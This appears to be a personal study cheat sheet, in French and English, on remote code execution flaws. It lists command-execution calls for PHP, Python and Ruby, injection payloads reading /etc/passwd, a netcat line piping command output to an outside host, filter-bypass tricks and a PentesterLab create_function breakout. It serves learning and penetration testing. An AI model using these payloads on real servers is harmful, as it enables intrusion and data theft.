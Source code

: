 # RCE

## Principe

* J'ignore si l'abréviation RCE correspond à _Remote Code Execution_ ou _Remote Command Execution_, les deux étaient utilisés pour le même genre de failles dans le cours.
* Possibilité d'exécuter des commandes de l'OS sur le serveur.

## Language specifics to run commands

* PHP
  * `system("command")`
* Python
  * `os.system("command")` and variants
  * Do that inside an `str()`
  * If you need to import os.system, use this function in str\(\) : `__import__('os').system(...)`
* Ruby
  * `command`

## General tips & trick

* A basic OS command for test is `uname` \(but i suppose it would work only on a linux system\)
* Si le résultat n'est pas reflété, utiliser à la place `sleep 10` pour voir si la commande a bien été injectée
  * To send back result when it's not reflected, simply pipe it to nc : `whoami | nc <ip> <port>` \(given that the remote server has nc of course\)
* When your payload is included inside a string, **use concatenation** : `" . system('cat /etc/passwd') ."`
* Don't forget to **urlencode**
* If some characters seems to be sanitized when the request first arrive, try to base64 encode them. Since the code you inject is executed, you can make the server decode it the moments it uses it.
* Bypass sanitation :
  * If the `/` is sanitize, you can usually get it by echoing the home directory `echo $HOME`
  * Si un autre caractère est sanitize et qu'il existe dans une variable d'env, on peut faire ça :
    * `echo ${ENV:13:1}` Le 1er nombre étant la position du char et le second le nombre à récupérer. Remplacer ENV par le nom de var d'env bien sûr
  * On peut aussi utiliser `printf "\x41"` en remplacer 41 par le nombre hexa correspondant

## PHP specific tips and tricks

* If you've got input reflected into the html page, try to inject `<?php phpinfo(); ?>`
* Try to get warnings instead of errors as they won't stop the execution flow
* PHP source code is available, which is useful to see how you can break out of a function
* In php, dev usually sort either by using sql's `order by` or php's `usort`. And in usort, they often used a function created with `create_function` \(however it's now deprecated\)
  * In an example using usort and then create\_function, the easiest is to try and break out create\_function, even more so since we can have it's source code. This is the pentesterlab payload that would break it \(Essential - Code Execution 2\) : `?order=id);}system('cat /etc/passwd');//`. I thinks that stems from the fact that it's used in a `sprintf` as a `%s`.
* It's been deprecated in 5.5 and removed in 7, but you could use the regex modifier `/e` to make `preg_replace` evaluate the replacement before using it :  `www.example.com/?replacement=phpinfo()&pattern=/hello/e&base=hello`

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction's [video](https://www.youtube.com/watch?v=jkJWA_CWrQs)
* Misc Research

